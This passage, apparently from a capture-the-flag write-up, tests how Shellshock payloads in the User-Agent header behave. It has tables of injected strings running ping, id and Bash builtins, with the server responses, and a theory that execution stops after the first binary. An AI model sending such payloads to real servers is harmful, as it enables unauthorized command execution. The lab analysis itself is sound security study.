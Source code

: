 Same result. What about `ping` after `ping`?

| UA String | HTTP Code | Pings at tcpdump | Output in Resp |
| --- | --- | --- | --- |
| `User-Agent: () { :;}; echo; /bin/ping -c 1 10.10.14.15; /bin/ping -c 1 10.10.14.15; /bin/ping -c 1 10.10.14.15;` | 200 | 1 | One set of pings |

It’s looking more and more that any command kills the execution. So why not `echo`? Well, `echo` is a Bash builtin. What about other builtins (see `man bash`), like `printf` and `dirs`?

| UA String | HTTP Code | Pings at tcpdump | Output in Resp |
| --- | --- | --- | --- |
| `User-Agent: () { :;}; printf "\n"; /usr/bin/id` | 200 | N/A | `id` |
| `User-Agent: () { :;}; echo; dirs; /usr/bin/id` | 200 | N/A | output of `dirs` and `id` |

At this point, I don’t have any proof (I could go debugging Apache, but ugh, threads, sounds like a huge pain). I do have a good theory that I can’t find counter-examples for, and it’s this: Shellshock will run as many Bash builtins as given up to the first binary called and then stop. A slight caveat to that is that pipes don’t seem to break it. For example, I can pipe `id` into `cut` to get the first 10 characters of output without issue, even though neither `cut` nor `id` are builtins:

![image-20210517213416440](https://0xdfimages.gitlab.io/img/image-20210517213416440.png)

`;`, `&&`, and `||` following a all seem to break execution at that point.
